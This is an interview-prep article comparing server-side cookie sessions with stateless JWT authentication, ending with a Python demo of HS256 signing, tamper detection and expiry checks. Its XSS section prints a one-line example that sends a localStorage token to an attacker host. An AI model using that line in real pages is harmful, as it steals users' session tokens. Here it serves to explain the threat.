


<span className="badge badge--warning margin-bottom--md">Medium</span>

> **Interview Question:** "Compare cookie-based session authentication with token-based authentication (JWT). Where is state stored in each approach, what is the architectural tradeoff between horizontal scalability and instantaneous revocation, and how do production systems mitigate JWT revocation and XSS vulnerabilities?"

Modern web authentication fundamentally bifurcates into two distinct architectural patterns: **Stateful Server-Side Sessions** and **Stateless Client-Side Tokens (JWT)**.

The core distinction hinges on **where the authoritative authentication state resides** and whether verifying identity requires an I/O database lookup or a local mathematical proof.

---

### Architectural Comparison: Stateful vs. Stateless



---

### 1. Cookie-Based Session Authentication (Stateful)

In a traditional session architecture, authentication state is maintained entirely on the server:
1. **Login:** The user submits credentials. The backend verifies them, generates a cryptographically secure random identifier (e.g., a 128-bit UUID `session_id`), and stores the session record in a centralized fast-access store (like Redis or a database table).
2. **Cookie Dispatch:** The server sends the `session_id` back in a `Set-Cookie` response header with security attributes: `HttpOnly; Secure; SameSite=Strict`.
3. **Subsequent Requests:** The browser automatically attaches the cookie to all outgoing requests to that domain.
4. **Validation:** The receiving server queries Redis with the `session_id` to confirm whether the session is valid, active, and which user it belongs to.

---

### 2. Token-Based Authentication (Stateless JWT)

In a **JSON Web Token (JWT)** architecture (RFC 7519), the authentication state is stored **entirely on the client**:
1. **Login:** The user submits credentials. The server verifies them and constructs a JSON payload containing user claims (e.g., `user_id`, `roles`, `exp`).
2. **Cryptographic Signing:** The server signs the payload using a secret key (HMAC-SHA256) or a private key (RS256/ES256), producing a compact token:
   $$\text{JWT} = \text{Base64URL}(\text{Header}) + "." + \text{Base64URL}(\text{Payload}) + "." + \text{Signature}$$
3. **Token Dispatch:** The server transmits the JWT to the client. The server **saves nothing in its database**.
4. **Subsequent Requests:** The client attaches the token in the HTTP header: `Authorization: Bearer <token>`.
5. **Validation:** Any backend microservice holding the public key or shared secret performs a CPU-bound cryptographic verification of the signature. If valid and unexpired, the claims are trusted immediately without touching a database!

---

### Cryptographic Anatomy of a JWT

```
Header:    {"alg": "HS256", "typ": "JWT"}
Payload:   {"sub": "usr_9921", "role": "admin", "exp": 1711824000}
Signature: HMACSHA256(
             base64UrlEncode(header) + "." + base64UrlEncode(payload),
             secret_key
           )
```

#### Symmetric vs. Asymmetric Signing:
- **`HS256` (HMAC with SHA-256):** A single symmetric shared secret signs and validates the token. Every internal microservice that validates tokens must know the secret. If one service is compromised, attackers can forge valid tokens for the entire ecosystem.
- **`RS256` / `ES256` (RSA / ECDSA):** The central Auth Service signs tokens using a **Private Key**. Downstream microservices only possess the **Public Key** (`JWKS`). They can verify signatures independently without ever being able to forge new tokens.

---

### The Fundamental Architectural Tradeoff: Scalability vs. Revocation

| Dimension | Cookie/Session Auth (Stateful) | Token/JWT Auth (Stateless) |
| :--- | :--- | :--- |
| **State Storage** | Server-side (Redis cluster or database) | Client-side (Encoded inside the token string) |
| **Validation Cost** | **Network I/O bound:** Network round-trip to Redis on every API request. | **CPU bound:** Local mathematical signature verification ($\approx 5\text{--}10\ \mu\text{s}$). |
| **Horizontal Scalability** | Requires scaling a centralized Redis cluster across data centers. | **Infinite scalability:** Zero coordination required between microservices. |
| **Instantaneous Revocation** | **Trivial ($O(1)$):** Delete the `session_id` key in Redis; the user is locked out immediately. | **Extremely difficult:** Because the server maintains no state, a JWT remains valid until its `exp` time arrives! |
| **Payload Size** | Tiny: A 32-byte opaque session string. | Moderate to Large: 500 to 2,000 bytes transmitted on every HTTP request. |

---

### Security Threat Modeling: XSS vs. CSRF

A critical interview topic is where tokens should be stored in the browser:

#### 1. Storing JWT in `localStorage` / `sessionStorage` (The XSS Trap)
- **Vulnerability:** Any JavaScript running on the page can access `window.localStorage`.
- If an application suffers from a single **Cross-Site Scripting (XSS)** vulnerability (e.g., via a compromised npm package or unsanitized comment input), an attacker can execute:
  ```javascript
  fetch('https://attacker.com/steal?token=' + localStorage.getItem('jwt'));
  ```
- **Verdict:** Storing sensitive access tokens in `localStorage` is widely discouraged in security-critical applications.

#### 2. Storing Session IDs / JWTs in `HttpOnly` Cookies (The CSRF Tradeoff)
- **Protection:** When a cookie is marked **`HttpOnly`**, browser JavaScript cannot read it via `document.cookie`, completely neutralizing XSS token theft!
- **The Tradeoff:** Cookies are automatically attached by the browser on cross-origin requests, exposing the site to **Cross-Site Request Forgery (CSRF)**.
- **Remediation:** Enforce `SameSite=Lax` or `SameSite=Strict` cookie flags, paired with standard Anti-CSRF Synchronizer Tokens (Double-Submit Cookie pattern).

---

### The Production Enterprise Pattern: Dual-Token Architecture

To combine the horizontal scalability of stateless JWTs with the security control of stateful revocation, enterprise systems (e.g., OAuth 2.0 / OIDC) use **Dual Tokens**:



1. **Short-Lived Access Token (JWT, 5–15 minutes):** Stateless. Passed in `Authorization: Bearer`. Validated by microservices using local CPU public key checks. If compromised, the attacker's window of access is bounded to 15 minutes.
2. **Long-Lived Refresh Token (Opaque string, 7–30 days):** Stored in a database/Redis and transmitted via secure `HttpOnly` cookie. Used only at the Auth server to renew expired access tokens.
3. **Instant Revocation:** If an admin bans a user, they revoke the Refresh Token in Redis. Within at most 10 minutes, the user's active access token expires and cannot be renewed!

---

### Summary

"Stateful session authentication stores session state in a server-side store like Redis, offering instantaneous revocation at the cost of centralized database queries on every request. Stateless JWTs embed signed claims directly on the client, eliminating database lookups and enabling infinite microservice scalability, but cannot be easily revoked prior to expiration. Modern production architectures combine both: short-lived stateless access tokens for high-throughput API verification, and stateful refresh tokens for centralized revocation control."

---

### Python Verification: JWT Cryptographic Signing & Tamper Verification

The following executable Python script implements the core cryptographic mechanics of JSON Web Tokens (HMAC-SHA256), demonstrating token generation, signature validation, tamper detection, and expiration handling:

```python
"""
JSON Web Token (JWT) Cryptographic Signing & Validation Simulator
Demonstrates:
  1. Base64URL encoding of Header, Payload, and Signature (HS256)
  2. Cryptographic signature verification
  3. Detection of payload tampering
  4. Token expiration enforcement
"""

import hmac
import hashlib
import base64
import json
import time
from typing import Dict, Any, Tuple

class SimpleJWT:
    def __init__(self, secret_key: str):
        self.secret_key = secret_key.encode('utf-8')

    def _base64url_encode(self, data: bytes) -> str:
        return base64.urlsafe_b64encode(data).decode('utf-8').rstrip('=')

    def _base64url_decode(self, data_str: str) -> bytes:
        # Re-add padding if stripped
        padding = 4 - (len(data_str) % 4)
        if padding < 4:
            data_str += '=' * padding
        return base64.urlsafe_b64decode(data_str.encode('utf-8'))

    def encode(self, payload: Dict[str, Any], expires_in_seconds: int = 3600) -> str:
        header = {"alg": "HS256", "typ": "JWT"}
        payload_copy = dict(payload)
        payload_copy["exp"] = int(time.time()) + expires_in_seconds

        header_b64 = self._base64url_encode(json.dumps(header, separators=(',', ':')).encode('utf-8'))
        payload_b64 = self._base64url_encode(json.dumps(payload_copy, separators=(',', ':')).encode('utf-8'))

        signing_input = f"{header_b64}.{payload_b64}".encode('utf-8')
        signature = hmac.new(self.secret_key, signing_input, hashlib.sha256).digest()
        sig_b64 = self._base64url_encode(signature)

        return f"{header_b64}.{payload_b64}.{sig_b64}"

    def decode(self, token: str) -> Tuple[bool, Any]:
        parts = token.split('.')
        if len(parts) != 3:
            return False, "Invalid token structure"

        header_b64, payload_b64, sig_b64 = parts
        signing_input = f"{header_b64}.{payload_b64}".encode('utf-8')
        expected_sig = hmac.new(self.secret_key, signing_input, hashlib.sha256).digest()
        actual_sig = self._base64url_decode(sig_b64)

        # Constant-time comparison to prevent timing attacks
        if not hmac.compare_digest(expected_sig, actual_sig):
            return False, "Signature verification failed (TAMPERED!)"

        payload_bytes = self._base64url_decode(payload_b64)
        payload = json.loads(payload_bytes.decode('utf-8'))

        if payload.get("exp", 0) < time.time():
            return False, "Token has expired"

        return True, payload


def main():
    print("=== JWT Signing & Verification Simulation ===\n")
    SECRET = "super_secret_enterprise_key_2026"
    jwt_engine = SimpleJWT(secret_key=SECRET)

    # 1. Create a valid token
    claims = {"user_id": "usr_99182", "role": "engineer", "org": "acme_corp"}
    token = jwt_engine.encode(claims, expires_in_seconds=60)
    print(f"Generated Token:\n{token}\n")

    # 2. Verify valid token
    is_valid, decoded_claims = jwt_engine.decode(token)
    print(f"Verification 1 (Legitimate Token):")
    print(f"  Valid? {is_valid} | Claims: {decoded_claims}")

    # 3. Simulate Hacker Tampering (Escalating role to 'admin' without secret key)
    parts = token.split('.')
    tampered_payload = {"user_id": "usr_99182", "role": "SUPER_ADMIN", "exp": int(time.time()) + 3600}
    tampered_b64 = jwt_engine._base64url_encode(json.dumps(tampered_payload).encode('utf-8'))
    tampered_token = f"{parts[0]}.{tampered_b64}.{parts[2]}"

    print(f"\nVerification 2 (Attacker modified role to SUPER_ADMIN):")
    is_valid_hack, err = jwt_engine.decode(tampered_token)
    print(f"  Valid? {is_valid_hack} | Error: {err}")

    # 4. Simulate Expired Token
    expired_token = jwt_engine.encode(claims, expires_in_seconds=-10)
    print(f"\nVerification 3 (Expired Token):")
    is_valid_exp, err_exp = jwt_engine.decode(expired_token)
    print(f"  Valid? {is_valid_exp} | Error: {err_exp}")

if __name__ == "__main__":
    main()
```
